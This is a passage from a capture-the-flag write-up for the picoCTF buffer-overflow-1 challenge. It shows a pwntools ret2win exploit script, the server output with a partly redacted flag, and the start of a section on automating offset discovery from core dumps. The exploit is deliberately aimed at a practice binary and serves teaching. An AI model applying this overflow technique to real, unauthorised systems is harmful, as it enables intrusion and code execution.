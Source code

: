 payload = b"A"*44 + p32(0x80491f6)  # Little endian: b'\xf6\x91\x04\x08'
host, port = "saturn.picoctf.net", [PORT]

p = remote(host, port)      # Opens the connection
log.info(p.recvS())         # Decodes/prints "Please enter your string:"
p.sendline(payload)         # Sends the payload
log.success(p.recvallS())   # Decodes/prints all program outputs
p.close()                   # Closes the connection
{% endccb %}

Let's try running the script on the server:

{% ccb terminal:true html:true %}
<span class="meta prompt_">$ </span>python3 buffer-overflow-1.py
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to saturn.picoctf.net on port <span style="color:#696969"><b>[PORT]</b></span>: Done
[<span style="color:#277FFF"><b>*</b></span>] Please enter your string: 
[<span style="color:#47D4B9"><b>+</b></span>] Receiving all data: Done (100B)
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to saturn.picoctf.net port <span style="color:#696969"><b>[PORT]</b></span>
[<span style="color:#47D4B9"><b>+</b></span>] Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
    picoCTF{addr3ss3s_ar3_3asy_<span style="color:#696969"><b>[REDACTED]</b></span>}
{% endccb %}

We have completed our first `ret2win` buffer overflow on a x32 binary! Yet, this is just the beginning. How about we spice things up a little bit?

### IV: Automating the Stack 🔧

Although the concept of buffer overflows can seem daunting to newcomers, experienced pwners will often find these sorts of challenges trivial, and don't want to spend the effort manually finding offsets and addresses just to send the same type of payload. This is where our best friend comes in: **pwntools** helper functions and automation! Let's start with the first part - the `$eip` offset for x32 binaries.

The main helper we will be using is [`pwnlib.elf.corefile`](https://docs.pwntools.com/en/stable/elf/corefile). It can parse [core dump](https://www.ibm.com/docs/en/aix/7.1?topic=formats-core-file-format) files, which are generated by Linux whenever errors occur during a running process. These files take an **image** of the process when the error occurs, which may assist the user in the debugging process. Remember when we sent a large `cyclic` pattern which was used to cause a segmentation fault? We'll be using the core dump to view the state of the registers during that period, without needing to step through it using GDB. We'll be using the coredump to eventually find the offset!

{% info %}
Info: Many Linux systems do not have core dumps properly configured. For bash, run `ulimit -c unlimited` to generate core dumps of unlimited size. For tsch, run `limit coredumpsize unlimited`. By default, cores are dumped into either the current directory or `/var/lib/systemd/coredump`.
{% endinfo %}

Before we start, let's work through the steps with command-line Python. First, let's import the pwntools global namespace and generate an `elf` object using pwntool's `ELF()`:

{% ccb terminal:true html:true %}
<span class="line"><span class="meta prompt_">$ </span>python3 -q</span><br><span class="meta prompt_">>>></span> from pwn import *
<span class="meta prompt_">>>></span> elf = context.binary = ELF('./vuln')
[<span style="color:#277FFF"><b>*</b></span>] '/home/kali/ctfs/pico22/buffer-overflow-1/vuln'
    Arch:     i386-32-little
    RELRO:    <span style="color:#FEA44C">Partial RELRO</span>
    Stack:    <span style="color:#D41919">No canary found</span>
    NX:       <span style="color:#D41919">NX disabled</span>
    PIE:      <span style="color:#D41919">No PIE (0x8048000)</span>
    RWX:      <span style="color:#D41919">Has RWX segments</span>
{% endccb %}
